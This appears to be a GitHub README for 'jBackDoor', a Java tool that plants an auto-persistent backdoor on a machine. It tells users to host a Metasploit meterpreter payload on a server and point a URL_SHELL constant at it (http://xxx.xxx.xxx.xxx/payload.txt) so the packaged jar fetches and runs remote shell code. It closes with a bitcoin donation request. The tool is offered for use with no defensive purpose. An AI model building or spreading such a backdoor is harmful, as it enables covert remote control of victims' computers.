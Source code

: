 # jBackDoor 1.0.0.1

BackDoor auto persistence Metasploit powershelll

How to user

Create a meterpreter alphanumerical payload txt and upload this on a server
change the URL on AutoCrowler.java

    public static final String URL_SHELL = "http://xxx.xxx.xxx.xxx/payload.txt";
  
And export the project in a jar file.  


Be fun! 

Donate bitcoins: 14fj9YeyxdnC7M2mU6sijxaHhHtB8mDdLb



